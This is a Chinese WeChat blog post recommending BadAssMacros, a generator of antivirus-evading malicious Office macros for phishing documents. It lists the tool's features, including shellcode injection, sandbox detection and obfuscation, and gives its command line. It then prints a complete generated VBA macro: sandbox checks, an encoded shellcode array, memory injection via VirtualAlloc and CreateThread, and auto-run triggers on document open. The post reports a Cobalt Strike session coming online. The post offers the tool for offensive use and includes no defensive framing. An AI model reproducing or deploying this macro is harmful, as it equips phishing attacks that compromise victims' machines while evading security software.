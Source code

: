 ##  工具推荐：BadAssMacros免杀宏生成器

鸿鹄实验室a  [ 鸿鹄实验室 ](javascript:void\(0\);)

**鸿鹄实验室** ![]()

微信号 gh_a2210090ba3f

功能介绍 鸿鹄实验室，欢迎关注

____

__

收录于话题

    在众多的攻击方式中，钓鱼文档攻击仍然扮演者重要的地位，而随着各类安全防护设备的成熟，宏免杀一直是我们所讨论的问题，之前有MacroPack(收费版仍然好用)可以生成免杀宏文档，但特征已被标记，今天介绍的这款工具则仍然效果很好。  

    

地址如下：https://github.com/Inf0secRabbit/BadAssMacros

  

     先来看一下免杀效果：

  

![](https://gitee.com/fuli009/images/raw/master/public/20210805110832.png)

  

目前具有的功能如下：

  

  * Classic VBA shellcode injection.

  * Indirect VBA shellcode injection (using LoadLibrary).

  * Sandbox Detection.

  * VBA Purging.

  * Shellcode obfuscation.

  * Variable name Randomization.

  

这里我使用第一种方式进行注入  

  

  * 

    
    
    BadAssMacros.exe -i <path_to_raw_shellcode_file> -w <doc/excel> -p no -s classic -c <caesar_shift_value> -o <path_to_output_file>

  

![](https://gitee.com/fuli009/images/raw/master/public/20210805110833.png)

  

生成的宏代码如下：

  

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    Private Declare PtrSafe Function CreateThread Lib "KERNEL32" (ByVal SecurityAttributes As Long, ByVal StackSize As Long, ByVal StartFunction As LongPtr, ThreadParameter As LongPtr, ByVal CreateFlags As Long, ByRef ThreadId As Long) As LongPtrPrivate Declare PtrSafe Function VirtualAlloc Lib "KERNEL32" (ByVal lpAddress As LongPtr, ByVal dwSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As LongPtrPrivate Declare PtrSafe Function RtlMoveMemory Lib "KERNEL32" (ByVal lDestination As LongPtr, ByRef sSource As Any, ByVal lLength As Long) As LongPtrFunction stb() Dim qAW As Variant Dim GvH As LongPtr Dim DTc As Long Dim xiB As Long Dim fWB As LongPtr If Application.RecentFiles.Count < 3 ThenExit FunctionEnd IfSet objWMIService = GetObject("winmgmts:\\.\root\cimv2")Set colItems = objWMIService.ExecQuery("Select * from Win32_Processor", , 48)For Each objItem In colItemsIf objItem.NumberOfCores < 3 ThenExit FunctionEnd IfNext qAW = Array(255, 75, 134, 231, 243, 235, 203, 3, 3, 3, 68, 84, 68, 83, 85, 84, 89, 75, 52, 213, 104, 75, 142, 85, 99, 75, 142, 85, 27, 75, 142, 85, 35, 75, 142, 117, 83, 75, 18, 186, 77, 77, 80, 52, 204, 75, 52, 195, 175, 63, _100, 127, 5, 47, 35, 68, 196, 204, 16, 68, 4, 196, 229, 240, 85, 68, 84, 75, 142, 85, 35, 142, 69, 63, 75, 4, 211, 105, 132, 123, 27, 14, 5, 120, 117, 142, 131, 139, 3, 3, 3, 75, 136, 195, 119, 106, 75, 4, 211, 83, _142, 75, 27, 71, 142, 67, 35, 76, 4, 211, 230, 89, 75, 258, 204, 68, 142, 55, 139, 75, 4, 217, 80, 52, 204, 75, 52, 195, 175, 68, 196, 204, 16, 68, 4, 196, 59, 227, 120, 244, 79, 6, 79, 39, 11, 72, 60, 212, 120, 219, _91, 71, 142, 67, 39, 76, 4, 211, 105, 68, 142, 15, 75, 71, 142, 67, 31, 76, 4, 211, 68, 142, 7, 139, 75, 4, 211, 68, 91, 68, 91, 97, 92, 93, 68, 91, 68, 92, 68, 93, 75, 134, 239, 35, 68, 85, 258, 227, 91, 68, _92, 93, 75, 142, 21, 236, 82, 258, 258, 258, 96, 109, 3, 76, 193, 122, 108, 113, 108, 113, 104, 119, 3, 68, 89, 76, 140, 233, 79, 140, 244, 68, 189, 79, 122, 41, 10, 258, 216, 75, 52, 204, 75, 52, 213, 80, 52, 195, 80, 52, _204, 68, 83, 68, 83, 68, 189, 61, 89, 124, 170, 258, 216, 238, 118, 93, 75, 140, 196, 68, 187, 100, 33, 3, 3, 80, 52, 204, 68, 84, 68, 84, 109, 6, 68, 84, 68, 189, 90, 140, 162, 201, 258, 216, 238, 92, 94, 75, 140, 196, _75, 52, 213, 76, 140, 219, 80, 52, 204, 85, 107, 3, 5, 67, 135, 85, 85, 68, 189, 238, 88, 49, 62, 258, 216, 75, 140, 201, 75, 134, 198, 83, 109, 13, 98, 75, 140, 244, 75, 140, 221, 76, 202, 195, 258, 258, 258, 258, 80, 52, _204, 85, 85, 68, 189, 48, 9, 27, 126, 258, 216, 136, 195, 18, 136, 160, 4, 3, 3, 75, 258, 210, 18, 135, 143, 4, 3, 3, 238, 214, 236, 231, 4, 3, 3, 235, 165, 258, 258, 258, 50, 68, 107, 105, 81, 3, 157, 152, 102, 60, _179, 136, 116, 184, 55, 38, 239, 250, 111, 149, 90, 39, 166, 220, 17, 236, 156, 173, 190, 208, 118, 42, 257, 206, 123, 209, 43, 169, 53, 205, 216, 128, 12, 197, 242, 182, 95, 141, 121, 124, 19, 107, 29, 95, 202, 59, 153, 178, 48, 5, _145, 187, 177, 77, 21, 147, 43, 170, 168, 82, 205, 158, 16, 63, 236, 93, 13, 138, 84, 3, 88, 118, 104, 117, 48, 68, 106, 104, 113, 119, 61, 35, 80, 114, 125, 108, 111, 111, 100, 50, 55, 49, 51, 35, 43, 102, 114, 112, 115, 100, _119, 108, 101, 111, 104, 62, 35, 80, 86, 76, 72, 35, 59, 49, 51, 62, 35, 90, 108, 113, 103, 114, 122, 118, 35, 81, 87, 35, 56, 49, 52, 62, 35, 87, 117, 108, 103, 104, 113, 119, 50, 55, 49, 51, 44, 16, 13, 3, 214, 193, _208, 55, 4, 11, 192, 107, 203, 115, 147, 235, 180, 13, 143, 54, 239, 195, 106, 45, 70, 111, 186, 9, 50, 123, 33, 127, 155, 240, 94, 109, 44, 74, 215, 28, 87, 65, 234, 248, 256, 243, 98, 44, 211, 214, 183, 133, 125, 236, 179, 173, _42, 79, 178, 37, 192, 157, 121, 113, 171, 34, 186, 133, 255, 128, 215, 171, 210, 205, 146, 240, 29, 36, 48, 127, 76, 230, 26, 217, 115, 92, 25, 236, 197, 231, 257, 122, 62, 143, 244, 121, 27, 239, 38, 94, 56, 147, 243, 126, 156, 179, _56, 182, 70, 237, 65, 27, 97, 239, 200, 197, 202, 174, 144, 34, 151, 62, 49, 60, 202, 52, 98, 40, 250, 185, 239, 199, 73, 221, 9, 190, 126, 256, 79, 55, 29, 250, 163, 143, 71, 209, 165, 146, 197, 110, 170, 166, 230, 200, 159, 3, _116, 93, 9, 95, 83, 16, 158, 164, 178, 82, 59, 108, 40, 34, 85, 47, 32, 224, 108, 77, 211, 83, 65, 201, 229, 35, 220, 3, 214, 148, 211, 48, 250, 225, 80, 148, 6, 168, 36, 35, 66, 197, 200, 170, 212, 245, 149, 56, 30, 181, _21, 188, 102, 214, 68, 45, 199, 87, 53, 11, 121, 103, 133, 62, 193, 58, 25, 75, 138, 207, 190, 118, 212, 3, 68, 193, 243, 184, 165, 89, 258, 216, 75, 52, 204, 189, 3, 3, 67, 3, 68, 187, 3, 19, 3, 3, 68, 188, 67, 3, _3, 3, 68, 189, 91, 167, 86, 232, 258, 216, 75, 150, 86, 86, 75, 140, 234, 75, 140, 244, 75, 140, 221, 68, 187, 3, 35, 3, 3, 76, 140, 252, 68, 189, 21, 153, 140, 229, 258, 216, 75, 134, 199, 35, 136, 195, 119, 185, 105, 142, _10, 75, 4, 198, 136, 195, 120, 218, 91, 91, 91, 75, 8, 3, 3, 3, 3, 83, 198, 235, 162, 256, 258, 258, 52, 60, 53, 49, 52, 57, 59, 49, 52, 53, 54, 49, 52, 54, 52, 3, 84, 12, 194, 112)For i = 0 To UBound(qAW)qAW(i) = qAW(i) - 3Next iGvH = VirtualAlloc(0, UBound(qAW), &H3000, &H40)For DTc = LBound(qAW) To UBound(qAW)xiB = qAW(DTc)fWB = RtlMoveMemory(GvH + DTc, xiB, 1)Next DTcres = CreateThread(0, 0, GvH, 0, 0, 0)End FunctionSub Document_Open()stbEnd SubSub AutoOpen()stbEnd Sub

  

运行后，CS上线，有兴趣的可以自己去翻一翻源码。

  

     ▼更多精彩推荐，请关注我们▼

![](https://gitee.com/fuli009/images/raw/master/public/20210805110836.png)

  

  

预览时标签不可点

收录于话题 #

个 __

上一篇 下一篇

阅读

分享 收藏

赞 在看

____已同步到看一看[写下你的想法](javascript:;)

前往“发现”-“看一看”浏览“朋友在看”

![](//res.wx.qq.com/mmbizwap/zh_CN/htmledition/images/pic/appmsg/pic_like_comment55871f.png)

前往看一看

**看一看入口已关闭**

在“设置”-“通用”-“发现页管理”打开“看一看”入口

[我知道了](javascript:;)

__

已发送

取消 __

####  发送到看一看

发送

工具推荐：BadAssMacros免杀宏生成器

最多200字，当前共字

__

发送中

微信扫一扫  
关注该公众号

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

[知道了](javascript:;)

**长按识别前往小程序**

![]()

